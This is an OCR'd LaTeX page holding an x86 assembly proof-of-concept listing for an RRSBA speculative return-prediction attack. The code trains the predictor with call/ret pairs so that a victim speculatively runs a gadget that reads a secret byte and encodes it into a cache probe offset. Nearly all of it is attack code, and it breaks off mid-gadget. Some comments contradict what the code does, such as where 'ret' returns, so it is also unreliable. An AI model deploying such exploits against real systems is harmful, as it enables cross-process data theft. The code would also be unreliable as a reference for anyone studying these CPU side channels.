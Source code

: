 \documentclass[11pt,a4paper]{article}
\begin{document}
\vspace{-0.5em}
\begin{lstlisting}[caption={\texttt{attacker\_rrsba\_injection.asm}}, label={lst:rrsba-injection}]
; Proof-of-concept exploiting fallback speculative return prediction (RRSBA)
; based on PB-RRSBA attack from ETH Zuerich 2025 research
; https://comsec.ethz.ch/wp-content/files/ibpb_sp25.pdf
; Demonstrates user to user speculative control-flow hijack
; Note: Does not rely on RSB, IBPB, or indirect-branch prediction (BTB)

global _start

section .text

_start:
    ; Begin training the alternate return predictor (RRSBA)
    ; The goal is to execute many call -> ret pairs that all return to a fake gadget
    ; This will create historical return address patterns used by RRSBA when RSB underflows
    mov rcx, 64 ; Number of training iterations

.train_loop:
    call train_gadget ; Perform a call that returns to our fake gadget
    loop .train_loop ; Loop until we've done it 64 times (decrements RCX and jumps if not zero)

    ; At this point, the fallback return predictor (RRSBA) is polluted with returns to our gadget

; Training done -> fall through here
; Spin with PAUSE so this thread stays oncore, keeping our
; RRSBA poison and probe buffer hot while the victim runs (so available in mem)
.spin:
    pause ; Hint to CPU: we're spinning, reduce power / latency
    jmp .spin ; Infinite loop to keep the attacker thread alive

train_gadget:
    ; Simulates a fake return target, where we want the victim to speculatively return
    lea rax, [rip + fake_ret_target] ; Load address of our gadget into RAX
    push rax ; Push gadget address onto the stack (simulates a return address)
    ret ; Return -> control goes back to .train_loop
    ; But also leaves a trace in CPU's speculative return predictors

fake_ret_target:
    ; This is the gadget that we hope the victim speculatively executes
    ; When RSB underflows, RRSBA may speculatively return here

    mov al, byte [rdi]
    ; Read a secret byte from memory address in RDI
    ; (RDI should point to attacker-chosen location in victim)

    shl rax, 12
    ; Multiply value by 4096 (page size) -> so shifting left by 12 positions
    ; This gives us a unique offset per possible byte value (0-255)
    ; Each offset is on a separate 4 KB page -> separate cache line


\end{lstlisting}
\end{document}
